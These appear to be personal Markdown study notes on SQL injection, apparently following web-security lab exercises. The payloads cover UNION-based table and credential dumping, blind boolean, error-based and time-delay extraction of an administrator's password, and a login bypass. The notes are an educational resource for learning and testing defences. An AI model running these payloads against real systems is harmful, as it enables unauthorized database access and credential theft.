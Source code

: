 # Retrieving hidden data

## simple attack 
`https://insecure-website.com/products?category=Gifts` -> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 
=> after injecting `'+OR+1=1--` -> `SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

## Examining the database

> **determine number of columns/which column contains text**: `'+UNION+SELECT+'abc','def'+FROM+dual--`
> **database version**: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

- On <mark style="background: #BBFABBA6;">MySQL and Microsoft</mark>
>  `'+UNION+SELECT+'abc','def'#`
>  `'+UNION+SELECT+@@version,+NULL#`
## Listing the contents 

- <mark style="background: #FF5582A6;">Oracle</mark>
>**number of columns**: `'+UNION+SELECT+'abc','def'+FROM+dual--`
>**list of tables in the database**: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
>**details of the columns in the table**:`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
>**usernames and passwords for all users**: `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`

- <mark style="background: #FF5582A6;">non-Oracle</mark>
>`'+UNION+SELECT+'abc','def'--`
>`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
>`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
>`'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`

# Blind SQL injection
## triggering conditional responses

- let's say the original value of the cookie is `TrackingId=xyz`.
>1) **Modify the cookie**: `TrackingId=xyz' AND '1'='1` -> "Welcome back" message appears in the response
>2) **change it to**: `TrackingId=xyz' AND '1'='2` ->  "Welcome back" message does not appear in the response
>3) `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a` ->  there is a table called `users`
>4) `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a` -> there is a user called `administrator`
>5) `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a` -> password is greater than 1 character in length.
>6) burp intruder/Repeater =>  password is 20 characters long.
>7) `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§` -> first character
>8) `TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§` ->2nd character
>And so on...

## Error-based

### triggering conditional errors

- simple example:
> `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a` -> evaluates to `'a'` => no error 
> `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a` -> evaluates to `1/0` => divide-by-zero error
> => **you can retrieve data by testing one character at a time**: `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

- another example:
  - let's say the original value of the cookie is `TrackingId=xyz`.
>1) **Modify the cookie**: `TrackingId=xyz'` -> error message is received
>2) **change it to two quotation marks**: `TrackingId=xyz''` -> the error disappears
>3) **confirm that the server is interpreting the injection as a SQL query**:
> - `TrackingId=xyz'||(SELECT '')||'` -> `TrackingId=xyz'||(SELECT '' FROM dual)||'` -> no error => oracle database(as we used dual) 
> - `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'` -> error again
> 4) **verify that the `users` table exists** -> `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
> 5) **exploit this behavior to test conditions**: 
> - `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` -> error received
> - `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` -> error disappears
>6) **check whether the username `administrator` exists**: `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
>7) **determine the length of administrator's password**:  `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>§1§ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'` (use intruder)
>8) **test the character at each position to determine its value**: 
>- `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
>- `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 
>- and so on...
### verbose SQL error messages

  - let's say the original value of the cookie is `TrackingId=xyz`.
  >1) **Modify the cookie**: `TrackingId=xyz'` -> error message is received
  >2) **comment out the rest of the query**: `TrackingId=ogAZZfxtOKUELbuJ'--` -> comments the extra single quote -> no longer error 
  >3) **raise an error using `cast` keyword**: `TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--` -> error: `AND condition must be a boolean expression`
  >4) **modify the condition accordingly (to recieve no error)**: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--` -> no longer error
  >5) **use `SELECT` to retrive usernames from database**: `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--` -> error: character limit 
  >6) **Delete the original value of the cookie(to free up some additional characters)**: `TrackingId='...` -> error: unexpectedly returned more than one row  
  >7) **Modify the query to return only one row**: `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--` -> error leaks the first username: `ERROR: invalid input syntax for type integer: "administrator"`
  >8) **leak password**: `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--` 
## triggering time delays

- simple example:
  >`'; IF (1=2) WAITFOR DELAY '0:0:10'--` -> condition false => no delay
  >`'; IF (1=1) WAITFOR DELAY '0:0:10'--` -> condition true => 10 sec delay
  >=> **retrive data using one character at a time**: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

/gitcomm
- another example
  >  
# Subverting application logic

## simple attack 
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'` 
=> submit username as `administrator'--` -> `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`